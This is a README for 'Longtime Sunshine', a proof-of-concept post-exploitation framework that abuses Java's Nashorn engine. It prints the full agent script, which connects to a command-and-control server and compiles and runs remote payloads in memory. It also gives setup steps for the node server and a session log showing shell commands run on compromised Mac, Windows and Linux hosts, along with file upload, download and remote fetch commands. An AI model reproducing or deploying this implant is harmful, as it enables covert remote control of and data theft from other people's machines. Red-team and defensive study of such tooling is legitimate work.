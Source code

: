 # Longtime Sunshine

Longtime Sunshine is a proof of concept Nashorn based post exploitation framework. Nashorn is the JavaScript engine that Oracle introduced in Java 8. The engine's JavaScript implementation lacks any type of socket functionality, but does allow the programmer to invoke Java functionality. Also, Nashorn can compile a string to bytecode and execute out of memory. As such, a small amount of JavaScript/Java can be leveraged to load scripts from a remote user into memory. For example, sunshine.js:

```
var sock = new java.net.Socket("localhost", 1270);
if (sock.isConnected())
{
  var input = new java.io.BufferedReader(new java.io.InputStreamReader(sock.getInputStream()));
  var output = new java.io.BufferedWriter(new java.io.OutputStreamWriter(sock.getOutputStream()));
  var engine = new javax.script.ScriptEngineManager().getEngineByName("Nashorn");

  while (sock.isConnected()) {
    var payload = input.readLine();
    engine.compile(payload).eval();
    output.write(engine.invokeFunction("exec"));
    output.flush();
  }
}
```

Nashorn can be invoked from the command line using 'jjs'. This tool is installed along side the JRE.

## Usage
The command and control server, longtime.js, is written using node. Assuming you are using Ubuntu (or another Debian variant) you can execute the following commands to get the server running.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Currently, the server is hardcoded to listen on '0.0.0.0:1270'.

The agent, sunshine.js, can be executed using 'jjs' a couple of ways. The first, and most practical, is to simply execute the script:

```sh
albinolobster@ubuntu:~/longtime_sunshine$ jjs sunshine.js &
[1] 30747
albinolobster@ubuntu:~/longtime_sunshine$
```

Similar example, without backgrounding, with cmd.exe:

```sh
C:\Program Files\Java\jre.1.8.0_151\bin>jjs C:\Users\albinolobster\Desktop\sunshine.js
```

Of course, you can also just copy and paste sunshine.js into the jjs terminal for that true fileless feel, but that isn't really practical if you can't background or hide the terminal.

### Commands

Since this is only a PoC, only a minimal set of commands are implemented.

```sh
$ help
The following commands are supported:

help - this message
exit - exits the terminal
agents - lists the connected agents
agent <int> - begin interaction with the selected agent
```

```sh
$ agent 0
albinolobster@127.0.0.1$ help
The following commands are supported:

help - this message
exit - exits back to the main terminal
exec <args> - executes a shell command via cmd.exe or sh
upload <local file> <remote file> - uploads a local file to the agent
download <remote file> <local file> - downloads a file from the agent
get <url> <remote file> - the agent downloads form the url and creates the remote file
```

### Usage Example

```sh
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 192.168.1.188:62939
$ 
☀  Connection established by 192.168.1.207:51162
$ 
☀  Connection established by 192.168.1.188:62946
$ agents
=> [0] albinolobster@192.168.1.188:62939 (Mac OS X-10.12.6/x86_64)
=> [1] albinolobster@192.168.1.207:51162 (Windows 10-10.0/amd64)
=> [2] albinolobster@192.168.1.188:62946 (Linux-4.13.0-31-generic/amd64)

$ agent 1

albinolobster@192.168.1.207$ exec cd
C:\Program Files\Java\jre1.8.0_151\bin
albinolobster@192.168.1.207$ exit
$ agent 0
albinolobster@192.168.1.188$ exec uname -a
Darwin mac.westeros 16.7.0 Darwin Kernel Version 16.7.0: Wed Oct  4 00:17:00 PDT 2017; root:xnu-3789.71.6~1/RELEASE_X86_64 x86_64
albinolobster@192.168.1.188$ exit
$ agent 2
albinolobster@192.168.1.188$ exec uname -a
Linux ubuntu 4.13.0-31-generic #34~16.04.1-Ubuntu SMP Fri Jan 19 17:11:01 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
albinolobster@192.168.1.188$ exit
$ 
```
